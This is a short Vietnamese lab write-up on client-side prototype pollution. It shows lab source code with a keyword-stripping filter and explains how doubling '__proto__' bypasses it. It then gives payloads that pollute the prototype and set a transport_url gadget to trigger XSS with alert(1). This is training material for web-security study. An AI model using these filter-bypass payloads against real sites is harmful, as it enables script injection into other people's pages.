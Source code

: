 ### Phân tích

```javascript
async function searchLogger() {
  let config = { params: deparam(new URL(location).searchParams.toString()) };
  if (config.transport_url) {
    let script = document.createElement("script");
    script.src = config.transport_url;
    document.body.appendChild(script);
  }
  if (config.params && config.params.search) {
    await logQuery("/logger", config.params);
  }
}

function sanitizeKey(key) {
  let badProperties = ["constructor", "__proto__", "prototype"];
  for (let badProperty of badProperties) {
    key = key.replaceAll(badProperty, "");
  }
  return key;
}
```

- lab đã có thêm hàm chặn `'constructor','__proto__','prototype'` và mình cần bypass nó
- Tuy nhiên, do hàm replaceAll() chỉ loại bỏ duy nhất 1 lần từ khóa được yêu cầu. Nên có thể dễ dàng bypass bằng cách "double" từ khóa, ví dụ:

### Khai thác

- dùng payload sau và trigger thành công :

```javascript
?__pro__proto__to__[foo]=bar
```

![image](https://hackmd.io/_uploads/rJFsVzrV1x.png)

- khaii thác XSS với payload

```
__pro__proto__to__[transport_url]=data:,alert(1);
```

![image](https://hackmd.io/_uploads/Hk2rIzHVJe.png)

### Invader

![image](https://hackmd.io/_uploads/BJLuHMrE1g.png)

- nó chỉ phát hiện prototype chứ chưa khai thác đc XSS

![image](https://hackmd.io/_uploads/ByHFSfSV1g.png)
